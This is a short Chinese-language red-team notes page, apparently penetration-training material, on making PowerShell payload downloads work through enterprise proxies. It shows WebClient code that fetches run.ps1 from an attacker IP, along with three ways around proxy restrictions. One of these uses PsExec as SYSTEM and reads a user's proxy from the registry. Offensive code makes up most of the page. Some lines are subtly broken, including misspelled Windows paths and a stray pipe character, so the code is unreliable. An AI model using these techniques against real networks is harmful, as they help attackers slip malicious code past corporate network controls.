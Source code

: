 ## Powershell Proxy-Aware Communication
很多企业为了方便进行流量管理，都会用proxy代理的形式将流量汇总，这章节介绍如何绕过proxy代理限制

例子：从攻击者网站下载powershell脚本

```powershell
$wc = new-object system.net.WebClient
$wc.DownloadString('http://192.168.119.120/run.ps1')
```

方法一：
$wc.proxy = $null

方法二：
$wc.Headers.Add('User-Agent',"This is my user agent...")

方法三：
```cmd
PsExec.exe -s -i c:\Windows\SysWOW64\WindoesPower\v1.0\powershell_ise.exe
```

```powershell
New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
$keys = Get-ChildItem 'HKU:\'
ForEach ($key in $keys) {if ($key.Name -like "*S-1-5-21-*") {$start =$key.Name.substring(10);break}}
$proxyAddr=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Seetings\").ProxyServer
[system.net.webrequest]::DefaultWebProxy = new-object System.Net.WebProxy("https://$proxyAddr")|
$wc = new-object system.net.WebClient
$wc.DownloadString('http://192.168.119.120/run.ps1')

```